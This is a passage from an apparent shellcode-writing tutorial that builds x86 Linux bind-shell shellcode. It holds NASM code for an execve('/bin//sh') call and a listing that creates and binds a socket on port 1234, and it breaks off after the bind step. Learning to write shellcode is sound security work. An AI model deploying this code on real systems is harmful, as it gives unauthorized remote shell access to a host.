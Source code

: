 We'll want to break up the string into 4 byte halves to have a clean hex address to use.

```python
>>> import binascii
>>> binascii.hexlify(b'hs//')
b'68732f2f'
>>> binascii.hexlify(b'nib/')
b'6e69622f'
```
First we push a null to the stack to null terminate our /bin//sh argument, then push our /bin//sh hex. The point ebx to the stack, null out the ECX register, move the execve syscall into EAX, and finally execute. 

```nasm
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov ecx, edx
mov al, 0xb	
int 0x80
```

## Final Assembly Code

```nasm
global _start

section .text
_start:

	
	;zero out registers for socketcall
	
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx

	; Create the socket

	mov al, 0x66 		; socketcall (102)
	mov bl, 0x1		; SYS_SOCKET (1)
	push ecx		; protocol (0)
	push ebx		; SOCK_STREAM (1)
	push 0x2		; AF_INET (2)
	mov ecx, esp		; point ecx to top of stack
	int 0x80		; execute socket

	mov edi, eax		; move socket to edi

	; Bind the socket

	
	mov al, 0x66		; socketcall (102)
	pop ebx			; SYS_BIND (2)
	xor edx, edx		; zero out edx
	push edx		; INADDRY_ANY (0)
	push word 0xd204	; sin_port = 1234
	push bx			; AF_INET (2)
	mov ecx, esp		; point ecx to top of stack
	push 0x10		; sizeof(host_addr)
	push ecx		; pointer to host_addr struct
	push edi		; socketfd
	mov ecx, esp		; point ecx to top of stack 
	int 0x80		; execute bind
```